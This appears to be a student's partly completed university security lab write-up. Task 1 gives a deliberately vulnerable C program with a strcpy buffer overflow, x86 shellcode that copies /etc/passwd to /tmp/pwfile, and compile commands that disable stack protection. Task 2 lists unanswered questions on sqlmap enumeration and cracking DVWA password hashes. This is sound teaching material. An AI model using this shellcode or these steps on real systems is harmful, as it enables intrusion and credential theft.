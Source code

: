 # Lab #1,22110046, Mai Duc Kien, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:Description text (optional)


Compile asm program and c program

```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc lab1.c -o lab1.out -fno-stack-protector -mpreferred-stack-boundary=2
```
###1. Build image Run Docker
```
docker build -t img4lab .
```
```
docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
```
![Screenshot 2024-10-21 083918](https://github.com/user-attachments/assets/b8ccbc09-5ff8-424e-bd36-c8b4a0c86ae8)


**Conclusion**: comment text about the screenshot or simply answered text for the question


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





















































